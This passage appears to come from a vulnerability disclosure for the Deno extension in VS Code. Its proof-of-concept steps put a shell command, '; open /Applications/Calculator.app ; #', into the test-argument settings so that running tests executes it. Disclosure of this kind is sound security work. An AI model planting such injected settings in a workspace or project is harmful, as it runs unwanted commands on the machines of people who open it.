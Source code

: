         Deno.test("vulnerability test", () => {
          assertEquals(1, 1);
        });
        ```
    4. Open the `test.ts` file in VSCode.
    5. Observe the "▶ Run Test" code lens above the `Deno.test` declaration.
    6. Click the "▶ Run Test" code lens.
    7. **Expected Result:** The calculator application should open, demonstrating that the injected command from `deno.codeLens.testArgs` was executed. The test should also execute (or fail depending on the injected command, but the command injection should be evident regardless).
    8. **Repeat steps 2-7** but modify the workspace settings to inject the malicious command into `deno.testing.args`:
        ```json
        {
            "deno.testing.args": [
                "--allow-all",
                "; open /Applications/Calculator.app ; #"
            ],
            "deno.enable": true
        }
        ```
    9. **Expected Result:**  Open the VS Code Testing panel. Run the test using the Testing panel's UI. The calculator application should open, demonstrating that the injected command from `deno.testing.args` was executed when running tests through the Testing API.
    10. **Repeat steps 2-7** but modify the workspace settings to inject the malicious command into `deno.testing.args`:
        ```json
        {
            "deno.testing.args": [
                "--allow-all",
                "; open /Applications/Calculator.app ; #"
            ],
            "deno.enable": true
        }
        ```
    11. **Expected Result:** Open the VS Code Tasks sidebar (if enabled and tasks are visible). Run the test task from the sidebar. The calculator application should open, demonstrating that the injected command from `deno.testing.args` was executed when running tests through the Tasks sidebar.

